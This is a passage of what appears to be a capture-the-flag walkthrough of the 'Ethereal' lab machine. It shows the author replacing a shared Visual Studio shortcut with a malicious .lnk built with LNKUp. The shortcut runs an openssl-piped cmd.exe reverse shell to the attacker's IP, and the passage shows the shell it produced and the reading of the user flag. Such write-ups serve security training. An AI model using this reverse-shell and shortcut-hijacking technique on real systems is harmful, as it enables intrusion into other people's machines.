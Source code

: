 And we have a shell! Let's hunt for the `user.txt` file.

```bash
c:\windows\system32\inetsrv>whoami
ethereal\alan
```

I could not find a user.txt file on alan's desktop but found a `note-draft.txt` file.

```bash
c:\Users\alan\Desktop>type note-draft.txt
I've created a shortcut for VS on the Public Desktop to ensure we use the same version. Please delete any existing shortcuts and use this one instead.

- Alan
```

Shortcut on a public desktop? Let's find out.

```bash
c:\Users\Public\Desktop\Shortcuts>dir
 Volume in drive C has no label.
 Volume Serial Number is FAD9-1FD5

 Directory of c:\Users\Public\Desktop\Shortcuts

07/17/2018  08:15 PM    <DIR>          .
07/17/2018  08:15 PM    <DIR>          ..
07/06/2018  02:28 PM             6,125 Visual Studio 2017.lnk
               1 File(s)          6,125 bytes
               2 Dir(s)  15,427,989,504 bytes free
```

I generated a `.lnk` file using [LNKUp](https://github.com/Plazmaz/LNKUp) using `python generate.py --host localhost --type ntlm --output payload.lnk --execute "C:\Progra~2\OpenSSL-v1.1.0\bin\openssl.exe s_client -quiet -connect <myip>:73 | cmd.exe | C:\Progra~2\OpenSSL-v1.1.0\bin\openssl.exe s_client -quiet -connect <myip>:136"`

Once we have the `.lnk` file, we can create a `base64` of it and copy it to the system using `openssl base64 -A -e -in payload.lnk -out payload`.

Now let's copy the string to the windows machine. To do that we could use `echo | set /p="TAAA...Y28AAAAA" > c:/users/public/desktop/shortcuts/b64file.txt`, now let's replace the *Visual Studio 2017.lnk* file. I will use `cd c:\users\public\desktop\shortcuts && c:\progra~2\openssl-v1.1.0\bin\openssl base64 -A -d -in b64file.txt -out "Visual Studio 2017.lnk"`

I restarted the OpenSSL shells on port 73 and 136 and within a few seconds, I see this...

```bash
root@kali# openssl s_server -quiet -key key.pem -cert cert.pem  -port 136
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Users\jorge\Documents>whoami
ethereal\jorge

C:\Users\jorge\Documents>type c:\users\jorge\desktop\user.txt
2******************************d
```
